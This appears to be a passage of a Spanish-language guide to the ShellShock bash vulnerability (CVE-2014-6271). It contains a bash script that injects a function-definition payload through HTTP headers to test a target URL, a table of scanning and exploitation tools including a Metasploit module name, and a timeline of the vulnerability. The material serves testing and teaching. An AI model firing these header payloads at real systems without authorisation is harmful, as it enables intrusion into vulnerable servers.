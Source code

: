 ```bash
echo

# Test de servicios web
if [ "$1" ]; then
    echo "[+] Testing web service: $1"
    
    # Test con diferentes cabeceras
    headers=("User-Agent" "Referer" "Cookie" "X-Forwarded-For")
    
    for header in "${headers[@]}"; do
        echo "  Testing with $header header..."
        response=$(curl -s -H "$header: () { :; }; echo; echo ShellShocked" "$1" 2>/dev/null)
        if echo "$response" | grep -q "ShellShocked"; then
            echo "  [-] VULNERABLE via $header header!"
        fi
    done
else
    echo "Usage: $0 <target_url>"
    echo "Example: $0 http://example.com/cgi-bin/test.cgi"
fi
```

### Herramientas especializadas:

| Herramienta | Descripción | Uso |
|-------------|-------------|-----|
| **Nikto** | Escáner web con detección ShellShock | `nikto -h http://target.com` |
| **Nmap** | Scripts NSE para ShellShock | `nmap --script http-shellshock target` |
| **Metasploit** | Módulos de explotación | `use exploit/multi/http/apache_mod_cgi_bash_env_exec` |
| **Burp Suite** | Plugin de detección | Extensión "ShellShock Scanner" |

---

## 📊 Línea de tiempo de la vulnerabilidad

```mermaid
timeline
    title Historia de ShellShock
    2014-09-12 : Descubrimiento inicial
    2014-09-24 : Publicación pública (CVE-2014-6271)
    2014-09-25 : Primeros exploits en the wild
    2014-09-26 : Variantes adicionales descubiertas
    2014-10-01 : Parches estables disponibles
    2014-10-15 : Campañas masivas de explotación
```

---

## 🔗 Referencias y recursos adicionales
